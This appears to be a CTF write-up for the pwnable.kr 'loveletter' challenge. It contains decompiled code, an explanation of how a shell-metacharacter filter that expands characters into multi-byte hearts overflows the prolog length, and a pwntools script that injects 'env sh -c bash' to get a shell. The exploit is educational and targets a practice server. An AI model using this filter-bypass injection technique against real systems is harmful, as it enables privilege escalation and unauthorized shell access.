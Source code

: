 # Pwnable.kr Loveletter CTF Writeup

## Problem Description

The code of the program is:

### main

```c
080493a5  int32_t main(int32_t argc, char** argv, char** envp)

080493ac      void* const __return_addr_1 = __return_addr
080493b4      int32_t* var_14 = &argc
080493cb      char** argv_1 = argv
080493d1      void* gsbase
080493d1      int32_t eax_1 = *(gsbase + 0x14)
080493ed      memset(&loveletter, 0, 0x100)
080493ff      size_t eax_3 = strlen(epilog)
08049414      size_t eax_5 = strlen(prolog)
08049429      printf(format: &data_804a021)
08049449      void buf
08049449      fgets(&buf, n: 0x100, fp: *stdin)
08049449      
08049470      if (*(&buf + strlen(&buf) - 1) == 0xa)
08049487          *(&buf + strlen(&buf) - 1) = 0
08049487      
08049499      puts(str: &data_804a03c)
080494ab      protect(&buf)
080494bd      size_t eax_12 = strlen(&buf)
080494d2      puts(str: &data_804a068)
080494fb      memcpy(&loveletter + zx.d(idx), prolog, eax_5)
08049511      idx += eax_5.w
08049539      memcpy(&loveletter + zx.d(idx), &buf, eax_12)
0804954f      idx += eax_12.w
08049577      memcpy(&loveletter + zx.d(idx), epilog, eax_3)
0804958d      idx += eax_3.w
0804959e      puts(str: &data_804a08c)
080495a6      gid_t egid = getegid()
080495b7      setregid(rgid: getegid(), egid)
080495c9      system(line: &loveletter)
080495d9      *(gsbase + 0x14)
080495d9      
080495e0      if (eax_1 == *(gsbase + 0x14))
080495f1          return 0
080495f1      
080495e2      __stack_chk_fail_local()
080495e2      noreturn
```

### protect

```c
08049216  int32_t protect(char* arg1)

08049235      void* gsbase
08049235      int32_t eax_1 = *(gsbase + 0x14)
08049240      int32_t var_127
08049240      __builtin_strncpy(dest: &var_127, src: "#&;`\'\"|*?~<>^()[]{}$\\,", n: 0x17)
08049240      
08049376      for (int32_t i = 0; strlen(arg1) u> i; i += 1)
08049350          for (int32_t j = 0; strlen(&var_127) u> j; j += 1)
080492c4              if (arg1[i] == *(j + &var_127))
080492e2                  void var_110
080492e2                  strcpy(&var_110, &arg1[i + 1])
080492f8                  *(arg1 + i) = 0xa599e2
08049308                  size_t eax_13 = strlen(&var_110)
08049337                  memcpy(&arg1[strlen(arg1)], &var_110, eax_13)
08049337      
08049397      if (eax_1 == *(gsbase + 0x14))
080493a4          return eax_1 - *(gsbase + 0x14)
080493a4      
08049399      __stack_chk_fail_local()
08049399      noreturn
```

When running, we see this:

```bash
loveletter@ubuntu:~$ ./loveletter
♥ My lover's name is : itamar
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echoes in my mind...
I love itamar very much!
```

The program takes an input and replaces every character in the "blacklist" (which can cause command injection) with a heart. We need to get a shell and read the flag.

## Analysis

The first thing I noticed is a bug in the `protect()` function. The bug occurs when the program replaces a character with a heart but does not add a null terminator at the end. The issue is on this line:

`memcpy(&arg1[strlen(arg1)], &var_110, eax_13)`

It should be:

`memcpy(&arg1[strlen(arg1)], &var_110, eax_13 + 1)`

Additionally, each character is one byte, but the heart is three bytes. This means that replacing a character with a heart increases the input string's length by two bytes. We can see that the maximum length of the input is 0x100 (256 bytes), and it is located on the stack. This allows us to leverage the `protect()` function's behavior of extending the input buffer to perform a buffer overflow on the stack. Looking at the `main()` function, the stack layout is as follows:

```
eax_3 (epilog length) - 4 bytes
----------------------
eax_5 (prolog length) - 4 bytes
----------------------
buf[0x100]            - 256 bytes
```

My initial idea was to overflow `eax_5` (prolog length) with 0, so `loveletter` would start with my input, allowing me to call a shell using: `sh -c bash `. This way, the program would ignore the rest of the input (needed for the buffer overflow). By doing this, I could pass two arguments to `sh`: `bash` (to open a shell and read the flag) and the rest of the input, which `sh` would ignore.

However, there is a problem. There is no way to overflow `eax_5` with 0 because the input buffer increases by two bytes (and to set it to 0, it would need to increase by one byte). Additionally, I cannot write a 0 in the buffer because it would be treated as a null terminator and ignored.

Although I cannot overflow `eax_5` with 0, I can overflow it with any other number. After some thought, I realized I could use part of the prolog string (from its start) in my command. The issue is that my command (`sh -c bash `) starts with 's', while the prolog string starts with 'e'. Therefore, I needed a command that starts with 'e' and can take another command as an argument to execute it.

After some research, I found that `env` is perfect for this case. I can run: `env sh -c bash `, which will open a bash shell, allowing me to read the flag. To achieve this, I needed to set the prolog length to 1 and start my input with `nv sh -c bash`. When combined, this would execute `system("env sh -c bash AAAAAAAA...")`, opening a shell.

To overflow `eax_5` with 1, I needed to append the following to the input:

`...AAA + # + 0x01 + \0, 0x0c + 0x00 + 0x00 + 0x00` (the last four bytes represent the prolog length)

After the `protect()` function processes it, it will look like this:

`...AAA + a5 + 99 + e2, 0x01 + 0x00 + 0x00 + 0x00`

In conclusion, the input should look like this:

`nv sh -c bash AAAAAAA...#/x01`

## Exploit Code

```python
from pwn import *

context.log_level = 'info'

session = ssh(user='loveletter', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9034'])

payload = b"nv sh -c bash "
payload += b"A" * (253 - len(payload))
payload += b"#"
payload += b"\x01"

print(payload)

p.sendline(payload)
p.interactive() # cat flag
```
